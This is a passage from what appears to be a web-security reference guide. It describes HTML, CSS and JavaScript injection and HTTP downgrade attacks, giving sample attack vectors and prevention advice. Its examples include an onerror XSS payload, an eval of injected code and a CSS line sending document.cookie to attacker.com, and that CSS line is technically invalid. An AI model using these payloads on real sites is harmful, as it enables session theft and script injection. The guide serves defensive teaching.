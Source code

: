 **Prevention**: Use Object.create(null), validate object keys, use Map instead of objects.

## Injection Attacks

### HTML Injection

**Description**: Injects malicious HTML content into the page.

**Attack Vector**:

```javascript
const userInput = "<img src=x onerror=\"alert('HTML Injection')\">";
document.getElementById("content").innerHTML = userInput;
```

**Prevention**: HTML encoding, use textContent, DOMPurify library.

### CSS Injection

**Description**: Injects malicious CSS that can leak sensitive information or manipulate UI.

**Attack Vector**:

```css
/* Attacker injects: */
background: url("https://attacker.com/log?cookie=" + document.cookie);
```

**Prevention**: Sanitize CSS input, use CSS-in-JS libraries safely.

### JavaScript Injection

**Description**: Executes arbitrary JavaScript code in the victim's browser.

**Attack Vector**:

```javascript
// Through eval()
const userCode = "alert('Injected code'); maliciousFunction();";
eval(userCode); // Executes attacker's code
```

**Prevention**: Avoid eval(), use JSON.parse() safely, implement CSP.

## Man-in-the-Middle (MITM) Attacks

### HTTP Downgrade Attack

**Description**: Forces HTTPS connections to downgrade to HTTP.

**Attack Vector**:

```javascript
// Attacker intercepts HTTPS request and responds with HTTP redirect
location.href = "http://victim-site.com"; // Steals session data
```

**Prevention**: HSTS headers, certificate pinning, always use HTTPS.
